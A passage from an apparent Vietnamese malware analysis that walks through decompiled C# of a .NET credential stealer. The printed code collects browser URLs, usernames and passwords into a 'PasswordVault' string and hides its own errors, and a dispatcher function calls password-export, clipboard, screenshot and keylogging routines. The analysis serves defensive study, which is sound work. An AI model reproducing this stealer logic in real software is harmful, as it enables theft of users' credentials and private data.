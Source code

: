 - Nếu tìm thấy **username** và **password** hợp lệ (không trống), chương trình sẽ format lại thông tin và lưu trữ vào `UltraSpeed.PasswordVault`


```csharp!

if (Operators.CompareString(Left, "", false) != 0 & Operators.CompareString(str3, "", false) != 0)
{
    string str4 = "\r\n============X============\r\nURL: " + str2 + "\r\nUsername: " + Left + "\r\nPassword: " + str3 + "\r\nApplication: Kinza\r\n=========================\r\n ";
    UltraSpeed.PasswordVault += str4;
}
```


- Đoạn bắt lỗi để không ảnh hưởng đến việc chạy chương trình 

```csharp!
catch (Exception ex)
{
    ProjectData.SetProjectError(ex);
    ProjectData.ClearProjectError();
}
```
Các function đều có cấu trúc mã nguồn tương tự. Chúng đều tìm thông tin đăng nhập và giải mã những thôn tin cần thiết rồi lưu trữ trong `UltraSpeed.PasswordVault`




 ##### **d.  `StartView()`** : Hàm gọi tới `EmptyBlocker()` và `NoBlocks()`

```csharp
  public static void StartView()
    {
      UltraSpeed.EmptyBlocker();
      UltraSpeed.NoBlocks();
    }
```



  -  `NoBlocks()` : Tiếp tục là một hàm chưa thể dịch ngược

```csharp
public static void NoBlocks()
    {
    }
```

- `EmptyBlocker()` : Chứa các function có tên mang ý nghĩa như các chức năng lấy cắp thông tin :

```csharp
    public static void EmptyBlocker()
    {
      if (Operators.CompareString(UltraSpeed.PasswordVault, "", false) == 0)
        return;
      UltraSpeed.SpeedOffPWExport();
      UltraSpeed.SpeedPassword();
      UltraSpeed.SpeedClipboard();
      UltraSpeed.SpeedScreenshot();
      UltraSpeed.SpeedKeylog();
    
```
